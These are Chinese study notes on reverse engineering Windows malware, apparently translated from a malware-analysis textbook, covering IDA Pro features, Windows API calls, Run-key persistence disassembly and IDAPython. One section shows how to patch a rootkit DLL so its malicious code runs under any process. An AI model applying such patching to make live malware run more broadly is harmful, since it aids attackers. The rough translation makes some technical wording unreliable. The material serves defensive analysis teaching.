当加载可执行之后，IDA在每一个函数执行分析，反汇编确定栈框架。除此之外，使用大量的签名和运行特殊算法匹配提供IDA识别反汇编函数。注意到➊在执行过初始化分析之后，IDA添加了一个批注，用分号开头；这意味着ebp寄存器被局部变量和函数参数使用（前章节提到的函数在ebp堆栈寄存器基址中）。在➋中，IDA使用其规则可以确定main函数并添加在关于此函数的批注，这一特点可以用于确定函数需要接收多少个参数，以及参数的类型。

在➌中，IDA提供了一个总的栈的视角，IDA能够判断局部变量和函数参数。在主函数中IDA定义两个局部变量，并自动命名为var_4和var_8并分别赋值。-4和-8对应着与dbp（框架指针）的距离。➍和➎是IDA替换[ebp-4]与[ebp-8]的内容。

IDA会自动对变量或参数进行命名，并在代码中应用这些名称；IDA标记的var_xxx和arg_xxx可以节约人工标记并替换参数的工作，并便于识别变量名和参数。

function prologue, funcktion epilogue和在➏中用于分配的空间给局部变量的指令可以简易的忽略。这些函数仅用于设定函数的环境。梳理之后汇编代码简化为：
```
.text:00401006    mov [ebp+var_4], 1
.text:0040100D    mov eax, [ebp+var_4]
.text:00401010    mov [ebp+var_8], eax
.text:00401013    xor eax, eax
.text:00401018    retn
```
##### 2.3.1 重命名地址
当分析恶意病毒的时候，可以将这些变量或函数改成更有意义的名字。有劲啊变量或者参数名，选择重命名（rename或者按快捷键“N”）。当重命名之后IDA将会同步新名字到与其相关的项目上。通过重命名可以给予变量或函数更加有意义的名字。
```
.text:00401006    mov [ebp+x], 1
.text:0040100D    mov eax, [ebp+x]
.text:00401010    mov [ebp+y], eax
.text:00401013    xor eax, eax
.text:00401018    retn
```
##### 2.3.2 IDA标注功能
标注对于提示某一函数的作用很有帮助。为了添加一个合规的注释，首先将光标放在任何一个反编译列表里的一行中，然后使用快捷键（“:”），通过在新的对话框中填写相关信息并确定，完成相关备注。
```
.text:00401006    mov [ebp+x], 1
.text:0040100D    mov eax, [ebp+x]
.text:00401010    mov [ebp+y], eax
.text:00401013    xor eax, eax
.text:00401018    retn
```
常规的备注对于单行描述但行比较有用（多行也可以），但是如果可以把描述汇总到一起描述，类似主函数的描述就更好了。IDA提供了另一种备注，函数备注，允许组合备注，并且可以显示在函数反汇编列中。首先选择函数所在的虚拟地址，然后通过快捷键“:”添加备注即可，这里为sub_140001230，伪代码添加函数备注。可以看到这些备注与函数使用相同的虚拟地址。


当前相关修改参数变量名称、添加备注的名称都只保存在IDA的数据库中，并没有保存在二进制可执行文件中。

##### 2.3.3 IDA 数据库
当可执行文件加载到IDA中，就会在工作目录中创建一个数据库该数据库一共包含5个文件（扩展名为：.id0,.id1,.nam,.id2以及.til）。每一个文件保存了大量的与可执行文件匹配的相关信息。这些文件被压缩和归档到以.idb（32进制）压缩文件中。当加载可执行程序后，从中读取创建信息保存在数据库中。大量的信息展都保存在数据库中以用于展示代码分析时有用的信息。任何的修改操作（如重命名，注释批注等等）都会显示在view中并且般存在数据库中，但是这些修改并不会修改原二进制文件。你可以通过关闭IDA保存数据库；当关闭IDA的时候将会提示是否保存数据库的提示框。默认情况下数据库包配置（默认配置）会将所有文件保存在IDB（.idb）或者i64（.i64）。当重新打开.idb或者.i64文件的时候，会看到重命名的变量和标注都在。

下面通过另一个简单的程序了解IDA的其他扩展特征。全局变量a、b，在主函数中赋值。参数x、y以及string为局部变量；a赋值给x，y和string都是保存的地址。
```
int a;
char b;
int main()
{
   a = 41;
   b = 'A';
   int x = a;
   int *y = &a;
   char *string = "test";
   return 0;
} 
```
程序转化为下面的反汇编列表。IDA也定义了全局变量和匹配名字例如dword_403374和byte_403370；记录如何补充内存地址并且在全局变量中被关联。当一个变量被定义之后在全局数据区域，对编译器来说变量的地址和变量的大小是明确的。全局的假的变量名被IDA详细知名变量的地址以及他们确切的数据类型。例如dword_403374则是说地址为0x403374可以接受dword（4bytes大小）的值。

IDA使用offset关键字表示变量地址被使用（而不是现实他们的值），当var_8、var_c被分配局部变量值时，可以认为他们被分配了值（指针变量值）。IDA使用aTest给地址确定字符（字符变量），这个名用于表示字符串，test用于添加批注，
```
.text:00401000    var_C= dword ptr -0Ch  ➊ 
.text:00401000    var_8= dword ptr -8  ➊ 
.text:00401000    var_4= dword ptr -4  ➊ 
.text:00401000    argc= dword ptr 8
.text:00401000    argv= dword ptr 0Ch
.text:00401000    envp= dword ptr 10h
.text:00401000
.text:00401000    push ebp
.text:00401001    mov ebp, esp
.text:00401003    sub esp, 0Ch
.text:00401006    mov ➋ dword_403374, 29h  
.text:00401010    mov ➌ byte_403370, 41h  
.text:00401017    mov eax, dword_403374  ➍ 
.text:0040101C    mov [ebp+var_4], eax
.text:0040101F    mov [ebp+var_8], offset dword_403374  ➎ 
.text:00401026    mov [ebp+var_C], offset aTest ; "test"  ➏
.text:0040102D    xor eax, eax
.text:0040102F    mov esp, ebp
.text:00401031    pop ebp
.text:00401032    retn
```

##### 2.3.4 格式化转化操作数
在➋和➌中操作数(29h和41h)代表16进制格式数值，然而在源码中我们使用十进制的41和字符“A”。IDA可以将16进制值编码为十进制、八进制、二进制。ASCII也可以转为字符型。例如，如果要修改41h格式的值，右击在这个值上选择即可。


##### 2.3.5 导航地址
IDA的另一个特征是可以在程序中导航任意地址更加方便。当程序被反编译，IDA就会标记每一个程序中的地址，双击字符则会在显示中跳转到对应字符所在的位置。如函数名或变量。
IDA保持跟踪导航历史；任何时候被重定向到另外一个地址，都可以使用返回按钮返回之前的地址。

跳转到指定地址可以点击jump/jump to Address（或者使用快捷键G）来跳转到地址。点击OK完成跳转。

##### 2.3.6 交叉参考cross References
其他方式导航是通过交叉参考实现（也称为Xrefs）。交叉参考链接与地址链接关联。交叉参考可以不仅数据交叉，也可以代码交叉参考。

数据交叉参考描述了数据在二进制中如何交互。如➐、➑、➒。例如数据交叉，➑描述的是数据与命令相关联，从主函数开始偏移0x6长度。字符```w```表示一个交叉关联写；代表命令写入内存地址。字符```r```代表读相互关联，代表从内存中读取信息。省略号```...```代表更多相关联，但是他们由于显示限制不能显示。其他种类的关联数据是一个补充（使用o表示），代表地址正在被使用，而不是内容。数组和字符型数组被开始的地址使用，因为字符数据➐被标记为一个参考偏移值。


```
.data:00403000    aTest db 'test',0  ➐; DATA XREF: _main+26o Similarly, double-clicking on the address dword_403374 relocates to the virtual address shown here: .data:00403374     dword_403374 dd ?    ➑; DATA XREF: _main+6w 
.data:00403374                       ➒; _main+17r ...
```
一个代码交叉参考代表一个到另一个的数据流（如jump或者function调用），下面显示的一个c语言的if语句：

```
int x = 0;
if (x == 0)
{
    x = 5;
}
x = 2; 
```

程序反编译如下，jnz反编译为C语言中==条件语句（也就是jne或者jump，if not equal的别名）；执行结束将会执行分支（如➊ to ➋）。jump交叉关联命令➌为jump天转后直行的命令，从主函数偏移0xF。字符```j```表示jump跳转后的结果。这里可以双击（_main+Fj）来改变跳转命令关联的显示。

```
.text:00401004    mov [ebp+var_4], 0
.text:0040100B    cmp [ebp+var_4], 0
.text:0040100F    jnz short loc_401018 ➊
.text:00401011    mov [ebp+var_4], 5
.text:00401018
.text:00401018    loc_401018:  ➌; CODE XREF: _main+Fj
.text:00401018    ➋ mov [ebp+var_4], 2
```

之前的列可以通过按空格键切换视图查看。graph视角对于获取虚拟分支/循环说明特别有用。绿色箭头为跳转条件满足，红色箭头为跳转条件不满足，蓝色箭头为正常部分。

下面针对函数内调用函数的情况来看：
```
void test() { }
void main() {
    test();
}
```
下面是main函数的反汇编列表。```sub_401000```代表了test函数。IDA自动使用```sub_```前缀命函数地址，指向子函数或者函数。例如当看到```sub_401000```（你可以直接把它当作子函数地址sub_401000阅读）。当然这里也可以通过双击函数名定位到函数。
```
.text:00401010    push ebp
.text:00401011    mov ebp, esp
.text:00401013    call sub_401000 ➊
.text:00401018    xor eax, eax
```
在```sub_401000```（test函数）开始处，IDA添加了一处代码交叉关联代码，用于代表这是函数，sub_401000，位于主函数main偏移3的位置，可以通过双击_main+3p跳转到该位置。```p```后缀代标控制器调用地址为（0x401000）函数的结果并继续后续的执行。
```
.text:00401000    sub_401000    proc near ➋; CODE XREF: _main+3p
.text:00401000                  push ebp
.text:00401001                  mov ebp, esp
.text:00401003                  pop ebp
.text:00401004                  retn
.text:00401004    sub_401000    endp
```

##### 2.3.7 列出所有交叉引用

交叉参考可以在审计代码的过程中快速定位字符或者函数的引用。IDA的交叉引用是定位地址的不错的方式，但是只能显示2个参数，因此你不会看到所有的交叉参考。另外```...```代表还有更多的交叉引用。
如果想要列出所有的交叉参考只需要点击地址名然后按X。
       
一个程序通常包含很多函数。一个函数可以被一个或多个函数调用，或者调用一个或多个函数。在样本分析的时候，为了快速浏览一个函数的相关信息，例如在本例中，你可以通过选择view | open subviews | function calls 来获取函数的函数调用情况。如图所示上半部分展示函数被调用情况，下半部分展示函数调用其他函数情况。通过函数调用情况，一般就可以判断这个函数的功能情况。



##### 2.3.8 相邻视角和图形化

IDA图形化选项是一个很好的形象化展示交叉引用的方式。在IDA图形化之前，可以使用相邻视角proximity view展示函数调用情况。点击view | open subviews | proximity browser。相邻视角中国呢，函数的数据通过节点以及交叉引用相互关联。你可以通过双击“+”钻入相邻节点函数/子函数，扩展/折叠节点。同时可以通过ctrl+鼠标滑轮，控制放大和缩小。退出相邻视角只需要在空白处右键，选择图形视图后者字符视图即可。



与自带的视图不同，IDA还可以展示第三方应用。要使用这些图形配置，可以右键工具栏，选择Graphs，会显示5个按钮：


通过点击这5个不同的视图，可以分别展示不同的展示方式，但是这5个视图不像图形化和相邻视角基于汇编视图可以交互。下面是不同的图形对应的不同的功能介绍：
|图标|描述|
|:--:|----|
||展示当前函数的外部流图表。展示的图形与IDA的交互视角很像。|
||展示当前函数的调用视图；这可以用来快速查看程序中函数调用关系情况；但如果程序的函数很多的话，这个视图就会显得非常大，被塞满。|
||这个视图显示一个函数的被交叉引用情况；如果想看一个程序的访问某个函数的不同路径，这个视图就相对比较清晰。|
||这个视图展示的是一个函数的交叉引用其他函数的情况；可以很清晰的展示函数调用所有其他函数。|
||这是一个自定义交叉引用视图，这个功能可以允许使用者定义交叉引用的一些视图生成内容和方式。|

实践IDA的各项功能有助于提高逆向的水平。下面我们将根据windowsAPI影响我们的windows操作系统。我们将学到如何分辨以及解释32位和64位Windows API的功能。


### 3. 反编译windows API

恶意软件通常使用windows API函数影响操作系统（例如文件系统、进程、内存以及网络配置等）。如第二章静态分析和动态分析部分，windows扩展主要依赖文件DLL动态连接库文件。可执行程序的引用和调用来自于大量DLL中的提供不同功能的API。为了调用这些dll文件，需要先将其加载到内存中，然后调用API函数。检查一个恶意样本的dll引用情况可以指导我们分析其功能和能力。下面的表格展示了部分常见的DLL以及其执行功能：

|DLL文件名 | 描述|
|---|---|
|Kernel32.dll|这个dll扩展出口于进程、内存、硬件、文件系统配置有关。病毒程序从这些dll文件中引入API函数，传输文件系统、内存以及进程相关配置。|
|Advapi32.dll|这是一个与系统服务以及注册表有关的函数。病毒程序通过使用这个dll中的函数来传输系统服务以及注册表相关的配置。|
|Gdi32.dll|有关图形显示的扩展函数库。|
|User32.dll|这个库的函数可以用来创建和操纵windows用户的洁面组建，例如窗口、桌面、菜单、消息通知、告警等等。一些病毒程序使用这个dll的函数执行DLL注入，键盘记录，鼠标记录。|
|msvcrt.dll|包含了c语言的标准库函数的执行库。|
|Ws2_32.dll和wsock32.dll|他们呢包含网络连接相关的函数。病毒通过引入这些dll的函数用来执行网络相关的任务。|
|wininet.dll|这个展示使用http和ftp协议的高级函数。|
|urlmon.dll|这是一个wininet.dll的包装，它通常用来MIME类型连接和下载网络内容。恶意程序downloaders使用这个库里的函数用来下载新病毒程序内容。|
|NTDLL.dll|扩展windows本地API函数和行为作为在用户程序及核心之间的转换器。例如，当一个程序在kernel32.dll（或kernelbase.dll）调用了API函数，API作为返回调用一个短票据在ntdll.dll。程序通常不会直接从ntdll.dll引用函数；ntdll.dll中的函数通常被间接的被如kernel32.dll的dll调用。ntdll.dll中的函数通常都是无文档的。病毒程序作者有时直接引用此dl中的函数。l|

#### 3.1 弄清楚Windows API

为了展示病毒程序如何使用windows API并且帮助你了解关于一个API更多的信息。以一个病毒样本为例。加载样本到IDA，在引用窗口展示出的相关windows API函数里，检查函数在windows引用情况。



无论什么时候，在遇到windows API 函数的时候，可以通过微软的开发者MSDN中搜索或者在谷歌中搜索，https://msdn.microsoft.com/。MSDN文档对于API函数进行了相关描述，如函数参数、参数类型、返回值等。这里取Creat or open file 作为举例，如 https://msdn.microsoft.com/en-us/library/windows/desktop/aa363858(v=vs.85).aspx 所示。	通过文档可以知道这个函数的功能为创建和打开文件。第一个参数（lpfilename），用于记录文件名称。第二个参数（dwdesiredaccess），说明需要的权限如读或血的权限，第5个参数也是对文件创建和打开一个已经存在的文件。

```c++
HANDLE CreateFileA(
  LPCSTR                lpFileName,
  DWORD                 dwDesiredAccess,
  DWORD                 dwShareMode,
  LPSECURITY_ATTRIBUTES lpSecurityAttributes,
  DWORD                 dwCreationDisposition,
  DWORD                 dwFlagsAndAttributes,
  HANDLE                hTemplateFile
);
```

Windows API使用匈牙利语命名变量。在这个语法中，变量前缀增加数据种类，这个有助于我们了解给数据种类。如第二个参数dwdesiredaccess，dw的前缀代表dword 32 位无符号整数。在win32 API支持的不同数据类型如(https://msdn.microsoft.com/en-us/library/windows/desktop/aa383751(v=vs.85).aspx)。下面的表格未一些数据类型：

|数据类型|描述|
|---|----|
| BYTE (b)          | Unsigned 8-bit value.8位无符号字节                           |
| WORD (w)          |Unsigned 16-bit value. 16位无符号字节|
|DWORD (dw)|Unsigned 32-bit value. 32位无符号字节|
|QWORD (qw)|Unsigned 64-bit value. 64位无符号字节|
|Char (c)|8-bit ANSI character.一个8位 Windows (ANSI) 字符|
|WCHAR|16-bit Unicode character.  一个16位 Windows (unicode) 字符|
|TCHAR|如果定义了**UNICODE** ，则为[**WCHAR**](https://docs.microsoft.com/zh-cn/windows/win32/winprog/windows-data-types?redirectedfrom=MSDN#wchar) ; 否则为[**CHAR**](https://docs.microsoft.com/zh-cn/windows/win32/winprog/windows-data-types?redirectedfrom=MSDN#char) 。一个字节的ASCII字符或2个字节的Unicode字符。|
|Long Pointer (LP)|这是一个指向其他数据类型的指针。例如，lpdword是一个指向Dword的指针，LPCSTR是一个字符内容。LPCTSTR是TCHAR的常量（1比特ASCII字符或2比特Unicode字符），LPSTR是不固定的字符。LPTSTR是一个不固定的TCHAR（ASCII或Unicode）字符。有的时候LP(Long Pointer)可以用P(Pointer)代替。|
|Handle (H)|这相当于处理数据类型。一个句柄是与对象相关的。在一个进程能够访问对象之前（例如一个文件、注册表、程序、互斥锁等等）必须先打开一个句柄对象。例如，如果一个程序想要卸乳一个文件，程序首先调用API，例如CreateFile，返回句柄到文件；然后进程使用句柄，通过句柄到写文件API，实现写入文件。|

与数据类型和参数不同，之前的函数样本包括注释，例如```_in_```和```_out_```，描述了函数使用的参数和返回的值。```_in_```表示输入参数，调用必须通过提供参数给函数才能执行函数。```_in_opt```表示可选的输入参数（可以为null）。```_out_```表示输出的参数；表示函数将会输出参数作为返回值。这个特性对于了解函数调用后是否从存储中读取任何数据到输出函数很有帮助。```_inout_```对象可以让我们分辨函数参数和函数的输出。

在交叉参考中我们可以看到API调用情况，通过查阅相关API手册，我们可以知道，相关API的输入和输出参数。以createfile为例，通过查看函数的相关的两个函数，起始地址如下：





双击第一个参数，调转到代码反汇编窗口对应位置。并且高亮显示。通过分散，IDA提供了一个叫做快速识别库的技术（FLIRT），包括图像匹配算法用于确定函数函数是库函数还是一个引用函数（从dll引入的函数）。在这个例子中IDA能够识别引入的分散的函数，并且将其命名为CreateFileA。IDA的分辨引用函数和库函数的能力非常有用，因为当你分析恶意样本的时候，不会去浪费时间分辨是引用的函数还是库函数。IDA还会为参数添加参数的名字作为注释，标记出Windows API函数调用的对应的参数的名称。

```
.text:00401708                 mov     dword ptr [esp+18h], 0 ; hTemplateFile
.text:00401710                 mov     dword ptr [esp+14h], 80h ; dwFlagsAndAttributes
.text:00401718                 mov     dword ptr [esp+10h], 3 ; dwCreationDisposition
.text:00401720                 mov     dword ptr [esp+0Ch], 0 ; lpSecurityAttributes
.text:00401728                 mov     dword ptr [esp+8], 3 ; dwShareMode
.text:00401730                 mov     dword ptr [esp+4], 80000000h ; dwDesiredAccess
.text:00401738                 mov     dword ptr [esp], offset FileName ; lpFileName
.text:0040173F                 call    ds:CreateFileA
```

第一个参数表示需要创建的文件名lpFileName。第二个参数dwDesiredAccess内容80000000h，通过https://docs.microsoft.com/en-us/windows/win32/secauthz/access-mask-format，可以看到对应的是generic_read权限，这一部分应该在后面的针对widnows的API的详细解读中进一步细化。第5个参数值为3，通过https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea，可以知道代表**OPEN_EXISTING**，只有当其退出的时候打开文件或设备。



IDA的另一个特性是列出使用象征名标记Windows API，或C标准库函数。例如在80000000h可以通过右键值，选择使用标准象征内容参数，标记内容；这个操作将会出现一个窗口展示所有有关选择的值的象征名字。你需要选择一个适当的标志名称这里就是Generic_read。用相同的方式，你可以替换掉第五个参数内容3，为象征名称，OPEN_EXISTING；



在使用象征名替换了内容之后，反汇编窗口列被转化成下图所示内容。代码变得更加可读。在函数调用之后，句柄到文件（可以在EAX寄存器中找到）被返回。通过函数操作文件还可以通过其他API来实现，例如readfile()或者writefile()，也可以实现类似的效果：



##### 3.1.1 ANSI和Unicode API函数

windows支持两个相似的API设置：一个是对于ANSI字符，另一个是Unicode字符。很多函数使用一个字符作为参数，在参数的名字后面包含A或者W。例如CreateFileA。换句话说，API名称的尾部，可以让你分辨通过函数的字符的种类（ANSI或Unicode）。以上面的CreateFileA为例，A表示函数使用一个ANSI字符作为输入。相应的CreateFileW则是表示函数使用一个Unicode字符作为输入。在恶意软件分析的过程中，当你看到一个函数名为CreateFileA或CreateFileW形式，可以删掉尾字母A或W，然后在MSDN中搜索函数文档。

##### 3.1.2 执行API函数

你可能会遇到很多名字带有Ex后缀的函数，例如RegCreateKeyEx（扩展RegCreateKey的变体）。当Microsoft升级一个与旧函数矛盾的函数的时候，升级的函数命名在原函数名的基础上增加Ex。

#### 3.2  32位和64位Windows API对比

让我们看一个32位恶意样本去了解恶意样本如何运用大量API函数去影响操作系统的，让我们尝试了解如何反汇编代码，去了解恶意程序的活动。在接下来的反汇编输出中，32位的恶意样本调用了RegOpenKeyEx API开启了一个句柄执行run注册表的值。当我们执行32位恶意样本的时候，所有regOpenKeyEx的API参数被压到栈上。相关的文档可以在 https://msdn.microsoft.com/en-us/library/windows/desktop/ms724897(v=vs.85).aspx 找到。输出参数phkResult是一个变量的指针（输出的参数由**_out_**注释指出）在函数调用后，指向打开注册表值的句柄。这里可以注意到，phkResult的地址是从ecx寄存器复制过去的，这个地址是作为RegOpenKeyEx API的第5个参数录入的。

```
lea  ecx, [esp+7E8h+phkResult] ➊
push ecx ➋                        ; phkResult
push 20006h                       ; samDesired
push 0                            ; ulOptions
push offset aSoftwareMicros ;Software\Microsoft\Windows\CurrentVersion\Run
push HKEY_CURRENT_USER            ; hKey
call ds:RegOpenKeyExW
```

在恶意软件通过调用RegOpenKeyEx打开run注册值后，返回的句柄（在phkResult变量存储）被移动到ecx寄存器中，并且作为RegSetValueExW的第一个参数传递。从MSDN关于这个API的文档中，可以发现使用RegSetValueEx API设置一个变量到run注册表的值中（持久化）。变量通过的第二个参数设置，system字符。对应的内容可以通过第五个参数的值去确认。从前面的描述中，可以确定eax保持由pszPath的地址的值。pszPath变量与在运行时的相关内容相关；因此通过查看代码，很难判断数据是病毒添加到注册表里的（你可以通过调试病毒样本确认）。但是在这点，通过静态分析（反汇编），你可以确定病毒添加了一个入口到注册表中作为持久化的方式：

```
mov   ecx, [esp+7E8h+phkResult] ➌
sub   eax, edx
sar   eax, 1
lea   edx, ds:4[eax*4]
push  edx                     ; cbData
lea   eax, [esp+7ECh+pszPath] ➐
push  eax ➏                  ; lpData
push  REG_SZ                 ; dwType
push  0                      ; Reserved
push  offset ValueName       ; "System" ➎
push  ecx ➍ ; hKey
call  ds:RegSetValueExW
```

在添加了一个入口到注册表中之后，病毒通过在句柄获取值之前（存有phkResult变量）关闭句柄到注册表值，如下所示：

```
mov   edx, [esp+7E8h+phkResult]
push  edx                     ; hKey
call  esi                     ; RegCloseKey
```

之前的例子展示了恶意样本如何使用多个windows API添加一个入口到注册表中，该注册遍能够在计算机重启的时候自动运行。你还可以看到，恶意样本如何获得一个对象的句柄，并分享句柄到其他API函数执行其他行为。

当你在看从64位病毒程序反汇编输出的函数的时候，可能会略显不同，这是由于参数通过64位架构。接下的一个64位样本调用CreateFile函数。在64位架构下，在寄存器中前4个参数被使用（rcx，rdx，r8和r9），并且剩余的参数被放置在寄存器中。在接下来的反汇编中，注意到第一个参数是如何通过rcx寄存器，第二个参数在edx寄存器中，第三个参数在r8，第四个在r9寄存器中。新增的参数被放置在栈中（注意这里没有push指令），这里使用mov指令。注意IDA如何识别参数柄添加注释到指令旁边的。函数的返回值（到文件的句柄）从rax寄存器中被移动到rsi寄存器中：

```
xor  r9d, r9d  ➍                           ; lpSecurityAttributes
lea  rcx, [rsp+3B8h+FileName] ➊             ; lpFileName
lea  r8d, [r9+1] ➌                          ; dwShareMode
mov  edx, 40000000h ➋                       ; dwDesiredAccess
mov  [rsp+3B8h+dwFlagsAndAttributes], 80h ➏  ; dwFlagsAndAttributes
mov  [rsp+3B8h+dwCreationDisposition], 2  ➎  ; lpOverlapped
call cs:CreateFileW
mov  rsi, rax  ➐
```

下面的反汇编为WriteFile API的，注意文件句柄在API调用之前被复制到rsi寄存器，现在通过writeFile函数第一个参数移动到rex寄存器。相同的方式，另一个参数被传入寄存器进入堆，如下所示：
```
and  qword ptr [rsp+3B8h+dwCreationDisposition], 0
lea  r9,[rsp+3B8h+NumberOfBytesWritten]       ; lpNumberOfBytesWritten
lea  rdx, [rsp+3B8h+Buffer]                   ; lpBuffer
mov  r8d, 146h                                ; nNumberOfBytesToWrite
mov  rcx, rsi ➑                               ; hFile
call cs:WriteFile From the preceding example,
```
从之前的案例可以看到，病毒程序创建一个文件和写入内容到文件，但是当你查找静态代码的时候，并不那么清楚的可以看出恶意软件创建了什么文件或者写入了什么内容到文件中。例如，想要知道软件创建的文件名，你需要检查ipFileName（传入CreateFile的一个参数）地址的内容；但ipFileName变量并非硬编码，并且只有当程序运行的时候才存在。


### 4. 使用IDA补丁二进制程序
当完成恶意程序分析，你想要修改二进制程序改变其内部工作原理或者逆向逻辑以便个人使用。你可以使用选择Edit/Patch program菜单。需要注意的是，当你使用这个菜单堆二进制进行修改的时候，你并不会直接对二进制文件本身进行修改；这个修改只会在IDA数据库中进行操作。如果需要应用修改到原始的二进制文件的话，你需要使用Apply patches to input file：

 

#### 4.1 补丁程序字节
考虑到代码通过32位恶意软件dll执行（RDSS rootkit），通过检测可以确保其运行与spoolsv.exe下面。这里的检测会使用字符对比功能；如果自负对比失败，则代码跳转到函数结束，并且回到函数调用。特殊的，这个dll的恶意行为只发生在当其被spoolsv.exe调用的时候；除此之外，其都无返回。
```
10001BF2     push offset aSpoolsv_exe  ; "spoolsv.exe"
10001BF7     push edi                  ; char *
10001BF8     call _stricmp  ➊ 
10001BFD     test eax, eax
10001BFF     pop ecx
10001C00     pop ecx
10001C01     jnz loc_10001CF9
 [REMOVED]
 10001CF9 loc_10001CF9: ➋      ; CODE XREF: DllEntryPoint+10j
10001CF9      xor  eax, eax
10001CFB      pop  edi
10001CFC      pop  esi
10001CFD      pop  ebx
10001CFE      leave
10001CFF      retn 0Ch

K A, Monnappa. Learning Malware Analysis: Explore the concepts, tools, and techniques to analyze and investigate Windows malware (p. 189). Packt Publishing. Kindle 版本. 
```
假定你想要恶意dll执行恶意行为在任一程序下，例如执行在notepad.exe下面。你可以改变硬编码的字符从spoolsv.exe到notepad.exe。为了实现这个，通过点击aSpoolsv_exe定位硬编码地址，在下面的内容中展示：



现在，将鼠标放在变量名上（aSpoolsv_exe）。此时，hex视图窗口中将会同步展示地址信息。在hex-View-1标签展示的hex和ascii导出内存地址。补丁字节内容，选择Edit/patch program/change byte；将会如下图所示带来补丁字节日志。你可以修改原始的二进制字节通过输入一个新的二进制值到栏目中。Address字段表示游标位置的虚拟地址，File offset字段指定二进制文件中字节所在的文件偏移量。
Original value字段显示当前地址的原始字节;即使你修改了这些值，该字段中的值也不会改变:



您所做的修改将应用于IDA数据库;要将更改应用到原始可执行文件，可以选择“Edit | Patch program | apply patches to the input file”。下面的屏幕截图显示了“应用补丁到输入文件”对话框。当您点击OK时，更改将应用到原始文件;您可以通过检查“创建备份”选项来保存原始文件的备份;在这种情况下，它会以.bak扩展名保存你的原始文件:



前面的示例演示了修补字节;以同样的方式，您可以通过选择Edit | patch program | Change word来一次打一个单词(2字节)的补丁。您还可以从十六进制视图窗口中修改字节，通过右键单击一个字节并选择Edit (F2)，您可以通过再次右键单击并选择apply changes (F2)应用更改。

#### 4.2 补丁命令

在之前的例子中，TDSS rootkit DLL执行了一个检查判断程序是否在spoolsv.exe下面运行。可以通过修改程序中的二进制信息将spoolsv.exe改为notepad.exe。可以通过逆向逻辑判断DLL可以运行在任意进程下面。为了实现这个想法，我们可以修改jnz命令使其变为jz，通过选择Edit｜patch program｜Assemble，如下所示。我们将要逆向逻辑并且让程序运行在spoolsv.exe下时，程序不会表现任何恶意行为表现，而运行在非spoolsv.exe时将会表现出恶意行为。在修改了命令之后，点击OK，命令将会被汇编，但是对话仍然保持打开状态，提示你在下一个地址汇编下一个命令。如果没有其他需要会变的可以点击取消结束。为了将修改保存到原始文件中，选择Edit｜patch program｜apply patches 将修改保存到文件中。




当你给任何命令打补丁的时候，小心需要确保所有的的命令的结合是正确的；除此之外，补丁的程序可能会出现无法预料的行为。如果新的命令比原始命令短的话，你可以使用**nop**命令保持长度完整。如果你在汇编一个新的命令超出原始的命令，IDA将会覆盖原始程序的后面的命令，这个行为可能并非我们希望如此的。

### 5. IDA 脚本和插件
ODA提供将本的行为，为你提供访问IDA数据库内容的许可。通过脚本程序，你可以自动的执行一些命令任务和复杂的分析操作。IDA支持两个脚本语言：IDC，原生的内置语言（类似c语言的语法）和python 脚本通过IDApython实现。在2017年9月，Hex-Rays发布的新版本IDAPython脚本 API兼容IDA7.0和最新版本IDA。在这一部分，我们将体验使用IDApython执行脚本的能力；在这一部分IDApython脚本使用最新版本IDApython API，因此需要对应IDA的版本要大于7.0，否则将无法正常工作。当我们熟悉了IDA和逆向工程的概念之后，你可能希望能够自动完成任务，结下来的资源可以帮助你开始IDApython脚本：


The Beginner’s Guide to IDAPython by Alexander Hanel: https://leanpub.com/IDAPython-Book 
Hex-Rays IDAPython documentation: https://www.hex-rays.com/products/ida/support/idapython_docs/

#### 5.1 执行IDA脚本
脚本可以通过多种方式执行。你可以执行标准的IDC或者IDAPython脚本通过选择File ｜ Script File。如果你只是希望执行一小段命令，而不是执行脚本文件，那么你可以通过选择File｜scrpt command（shift+F2），然后从下拉菜单中选择恰当的脚本语言（IDC或者Python）。在运行下面的脚本命令之后，当前光标位置的虚拟地址和反汇编的文本将会显示在下面的窗口中：



另一种方式执行脚本命令是输入IDA的命令行，如下图所示：



#### 5.2 IDApython
IDApython是基于python为IDA建立的一个特别有用的语言。他将IDA的分析特性与python结合，能够允许更多强大的功能。IDApython包含三种模块：idaapi，提供访问IDA API的访问；idautils，提供IDA更高级的功能函数；idc，一个IDC兼容模块。大部分IDApython函数允许地址以参数形式传递，当阅读IDApython文档的时候，你会找到地址被称为ea。大多IDApython函数返回地址；其中一个常见的函数是idc.get_screen_ea()，获取当前光标位置的地址：
```
Python>ea = idc.get_screen_ea()
Python>print hex(ea)
0x40206a
```
下面的代码片段展示了通过idc.get_screen_ea()获取的地址传入idc.get_segm_name()获取与地址相关的段的名称：
```
Python>ea = idc.get_screen_ea()
Python>idc.get_segm_name(ea)
.text
```
下面的代码片段，将idc.get_screen_ea()获取的当前光标的地址传入idc.generate_disasm_line()函数生成反汇编文本：
```
Python>ea = idc.get_screen_ea()
Python>idc.generate_disasm_line(ea,0)
push ebp
```
下面的代码，将idc.get_screen_ea()获取的当前光标的地址传入idc.get_func_name()确定与地址相关联的函数的名称。例如，根据Alexander Hanel's The Beginner’s Guide to IDAPython book (https://leanpub.com/IDAPython-Book):
```
Python>ea = idc.get_screen_ea()
Python>idc.get_func_name(ea)
_main
```
在恶意软件分析的时候，经常的，你将会想知道如果恶意软件引入了一个特定的函数（或者很多个函数），例如CreateFile，并且在程序代码中函数被调用。你可以通过前面章节中提到的IDA的cross-references交叉关联查询特性进行查询。对于IDApython给你一个感觉，下面的例子将展示IDApython如何检查CreateFile API调用并且识别CreateFile的交叉关联。

##### 5.2.1 检查CreateFile API的出现
如果你还记得，在反汇编的章节，IDA尝试通过模式匹配算法来确定反汇编函数是动态库函数还是导入函数。他还从符号表中派生出名称列表；这些派生名称可以通过使用（View｜Open subview ｜ Names或者 shift+F4）打开名称窗口；名称窗口包括导入、导出和命名数据位置列表。下面的截图显示了在名称窗口中的CreateFile API函数：



你可以通过编程的方式访问命名项。下面IDApython脚本检查通过遍历每一个命名来检查是否存在CreateFile API函数：

```
import idautils
for addr, name in idautils.Names():
      if "CreateFile" in name:
             print hex(addr),name
```

前面的脚本调用idautils.Names() ，该函数返回一个命名项（元组），其中包含虚拟地址和名称。迭代命名项检查是否存在CreateFile。运行上述脚本将返回CreateFileA API，如下面的代码片段所示。自从导入函数的代码驻留到共享库（DLL）中，其只会在运行时被夹在，地址（0x407010）中列出的以下片段是导入表相关的虚拟地址（并不是CreateFileA的地址）

```
0x407010      CreateFileA
```

